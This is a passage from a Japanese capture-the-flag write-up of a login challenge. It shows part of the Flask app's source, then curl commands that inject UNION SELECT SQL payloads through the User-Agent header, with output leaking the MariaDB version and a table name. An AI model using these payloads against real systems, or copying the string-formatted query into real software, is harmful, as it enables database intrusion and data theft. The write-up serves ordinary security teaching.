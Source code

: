 ```python
	cursor.close()
	conn.close()

	

	if len(res) == 0:
		return render_template("login.html", msg="stop! you're not allowed in here >:)")

	if len(res) > 1:
		return render_template("login.html", msg="hey! close, but no bananananananananana!!!! (there are many secret agents of course)")


	return render_template("login.html", msg="Welcome, %s"%(res[0][0]))

if __name__ == '__main__':
	app.run('0.0.0.0')
```

`cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True)` で SQLi ができそうです。`u` は `User-Agent` 由来ですから、いくらでも操作できます。やってみましょう。

```
$ curl https://(省略)/login -A "' union select version(),2;#"
<!DOCTYPE html>

<html>
<head>
        <title>Super Secret Agents Login</title>
</head>
<body style="padding: 50px">
        <p>Welcome, 10.4.12-MariaDB-1:10.4.12+maria~bionic</p>
</body>
</html>
```

できました。MariaDB を使っているようなので `information_schema.tables` からテーブルの情報を取得してみましょう。

```
$ curl https://(省略)/login -A "' union select group_concat(table_name), 2 from information_schema.tables where table_schema=database();#"
<!DOCTYPE html>
<html>
<head>
        <title>Super Secret Agents Login</title>
</head>
<body style="padding: 50px">
        <p>Welcome, Agents</p>
</body>
</html>
```

`Agents` というテーブルがあるようです。`information_schema.columns` からカラムの情報を取得しましょう。
